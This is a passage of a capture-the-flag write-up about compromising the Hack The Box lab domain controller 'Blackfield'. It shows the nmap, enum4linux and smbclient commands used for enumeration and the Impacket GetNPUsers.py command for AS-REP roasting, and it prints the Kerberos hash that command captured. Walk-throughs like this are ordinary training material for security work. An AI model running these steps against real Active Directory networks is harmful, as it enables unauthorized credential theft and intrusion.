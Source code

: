 Okay, our results are back and it looks like this box is a domain controller, most of the open ports are typically what we should see on a DC.

```bash
$ sudo nmap -sC -sV -O -p- -oA full180 10.10.10.192
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

A full port scan also reveals that port 5985 is open, which allows remote credentialed access with WinRM 2.0 (Microsoft Windows Remote Management). Next, let's try to enumerate some of the available services for more information.

```bash
$ enum4linux 10.10.10.192
```

`enum4linux`, a tool to enumerate Windows or Samba systems, yields little. Let's see if any shares are viewable without credentials.

![](/assets/img/posts/htb/07-2020-5/smb-shares.png)

Success. Trying each one, it looks like we can access the profiles$ share.

```bash
$ smbclient \\\\10.10.10.192\\profiles$
```

This reveals a lot of user directories, none of which are accessible. This does, however, give us some credentials to start enumerating. We can use a tool from [Impacket](https://github.com/SecureAuthCorp/impacket) which will check to see if any users have the property "Do not require Kerberos preauthentication" set (`UF_DONT_REQUIRE_PREAUTH`). If this is the case, we will receive a hash.

This is a subset of a process called "kerberoasting", which is described in more detail in [this article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/). Let's grab all the usernames and save them into a list.

```bash
$ GetNPUsers.py -dc-ip 10.10.10.192 BLACKFIELD.LOCAL/ -usersfile users -format hashcat -outputfile user.hash
[...]
$krb5asrep$23$support@BLACKFIELD.LOCAL:03fcde2dba3e2be20f5f7671f28a7200$cfc16761e1295b96b10714ee0424df3e1df623d73e606031e5787993565bcbadd2a2228e541aedd208d66e2f185e491306b0aabb9d43b99bc4e86d4370d6fd819f5fa9b11ccd0b07084347f7d854e129b64819de43f9e4ed751e32d339af4dc91d30a4a9fc3d32fa81fff5cb6a0abaf024c0402f47f53f228e280a8867cd609f9abb8b583fe03eade58eb980a56996e6093e04cdd20b0eb82c405d02ec9b18c491e304dce940b5a3460f4c02e4c72cf0250806230bd00c31d4588c2dd985ed5a85794aa3f1413a26c941895dedeefd33164f9f620cd54ccacbe65dfe37c6ec394249d8b2212db977f8026c54e8be9f51e3a13632
[...]
```
